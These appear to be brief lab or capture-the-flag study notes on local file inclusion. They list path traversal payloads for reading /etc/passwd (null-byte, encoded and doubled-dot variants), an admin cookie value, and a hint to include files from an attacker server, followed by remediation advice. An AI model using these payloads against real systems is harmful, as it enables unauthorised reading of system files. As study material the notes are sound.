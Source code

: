 # LFI

# Notes
	1. Try POST Request in file inclusion urls.
	2. For RFI try to include any file from Remote server(Attacker Server)

## Payloads
	../../../../etc/passwd%00
	../../../../etc/passwd/.
	....//....//....//....//etc/passwd
	%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
	cookie: THM=admin

## Remediation
	- Update to latest version of system and services
	- Don't show errors in webpage
	- Disable certain features, like allow_url_fopen or allow_url_include
	- Never trust user input
	- Whitelist only allowed files